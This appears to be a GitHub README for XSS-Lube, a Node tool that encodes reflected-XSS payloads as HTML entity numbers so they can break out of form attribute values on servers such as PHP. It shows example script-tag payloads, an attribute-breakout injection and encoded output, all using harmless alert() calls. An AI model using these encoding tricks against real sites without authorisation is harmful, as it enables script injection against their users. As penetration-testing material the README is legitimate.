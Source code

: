 # XSS-Lube

A tool to assist penetrating pages with XSS code that needs to find its way into HTML attributes.

At times it can be quite challenging to inject XSS code when the code's contents will be interpreted as HTML. This is particularly true in server-side reflected XSS that involves exploitation of an HTML attribute which can require some fairly tedious string manipulation since, when you're exploiting an HTML element and manipulating an attribute you'll not want certain reserved characters to be interpreted as HTML characters. 

## Conditions of Success
To date, this has been tested against PHP servers where form data is reflected on POST. Additional uses are yet to be tested.

### Example Problem
This code will break due to the combination of use of several reserved characters and some code being interpreted as a string literal. 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value="<script>alert("pwned");</script>" />
    <input type="submit" value="Submit">
</form>
```
The below will work to a limited degree, but only if you're directly manipulating the page. Otherwise, the injected script will not be received as input to the server and reflected back. This is becuase `...value=""/>` will be rendered literally before the script is reached and you'll only post an empty string to the server. 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=""/><script>alert("pwned");</script>"/>
    <input type="submit" value="Submit">
</form>
```
What we need is to send a string literal to the server that when reflected will be a complete set of generated code characters. One can manually fiddle with these inputs by mapping out characters to their HTML Number Entities. For example: 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=&#34;&#47;&#62;&#13;&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#60;&#13;/>
    <input type="submit" value="Submit">
</form>
```
This should work, and when reflected and re-rendered these HTML Entity Numbers will be translated into HTML characters. 

But that's quite tedious, especially for longer programs. Ideally, you'll get your reflected XSS exploit working with minimal struggle in the domain of string manipulation so you can save your time working out other technical problems.

## XSS-Lube to the Rescue
This tool will take a cleverly crafted text document and convert it's contents into [HTML Entity](https://developer.mozilla.org/en-US/docs/Glossary/Entity) Numbers, thereby circumventing some cases in which otherwise valid exploits are hampered by how a character is handled on HTML render.

**Dependencies**: NodeJS - consider installing the [Node Version Manager (NVM)](https://github.com/nvm-sh/nvm) to resolve this dependency.

## Example Usage

Example (test.html):

```html
<script>
  alert("pwned!");
</script>
```

Run the following code:
```sh
npm run start test.html
```
Or, with Yarn:
```sh
yarn start test.html
```

And then observe the output:

```text
ub3rl33t@kali:~$ yarn start test.html

===============================================================
██╗  ██╗███████╗███████╗      ██╗     ██╗   ██╗██████╗ ███████╗
╚██╗██╔╝██╔════╝██╔════╝      ██║     ██║   ██║██╔══██╗██╔════╝
 ╚███╔╝ ███████╗███████╗█████╗██║     ██║   ██║██████╔╝█████╗
 ██╔██╗ ╚════██║╚════██║╚════╝██║     ██║   ██║██╔══██╗██╔══╝
██╔╝ ██╗███████║███████║      ███████╗╚██████╔╝██████╔╝███████╗
╚═╝  ╚═╝╚══════╝╚══════╝      ╚══════╝ ╚═════╝ ╚═════╝ ╚══════╝
===============================================================
TEST.HTML - Text to HTML Entity Number for XSS:
---------------------------(start)-----------------------------
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;
---------------------------(end)-----------------------------
```

The string of HTML Entity Numbers can be used in place of cumbersome characters in your exploit.

## Caution
As always, there is a lot of nuance in exploiting vulnerable web applications. And you have to gain and understanding of the environment. This tool will not work well in all cases. And, encoded text put into an input field will behave differently than text embedded into a page, etc. So, please temper your expectations. ^_^

## Obligatory Warning
Hacking is illegal, this tool is not intended for illegal activity and the author cannot be held responsible for such use. Please use responsibly either in your own home lab or for legitimate work where you've required established satisfactory legal, business, and moral grounds to perform any penetration testing. 

